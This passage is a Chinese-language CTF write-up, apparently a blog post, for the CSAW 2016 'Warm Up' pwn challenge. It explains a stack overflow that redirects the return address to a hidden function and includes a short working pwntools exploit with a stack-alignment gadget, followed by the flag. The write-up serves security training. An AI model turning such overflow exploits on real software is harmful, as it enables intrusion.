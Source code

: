 ```plaintext
λ ~/ ./warmup
-Warm Up-
WOW:0x40060d
>wow
```

![](https://ghproxy.net/https://raw.githubusercontent.com/CuB3y0nd/picx-images-hosting/master/.3k8b4day6h.avif)

这种题真就是闭着眼睛做... 一眼出思路：溢出 `v5` 覆盖返回地址为 `easy` 函数即可。

值得注意的是首先要了解函数调用约定和栈帧布局，这样才能准确的覆盖返回地址。可以参考下面两篇文章：

- [C 语言函数调用栈（一）](http://www.cnblogs.com/clover-toeic/p/3755401.html)
- [C 语言函数调用栈（二）](http://www.cnblogs.com/clover-toeic/p/3756668.html)

还有一点就是确保 [栈对齐](https://www.cubeyond.net/blog/pwn-notes/stack/return-oriented-programming/stack-alignment)。

## Exploit

```python
#!/usr/bin/python3

from pwn import *

context(os='linux', arch='amd64', log_level='debug', terminal='kitty')

target = process('./warmup')

# payload = b'A' * (64 + 8) + p64(0x40060d + 0x1)
payload = b'A' * (64 + 8) + p64(0x4006a4) + p64(0x40060d)

target.sendline(payload)
target.interactive()
```

## Flag

Flag: `FLAG{LET_US_BEGIN_CSAW_2016}`

# CSAW Quals 2018 Get It

## Information

- Category: Pwn
- Points: 100

## Description

> Do you get it?
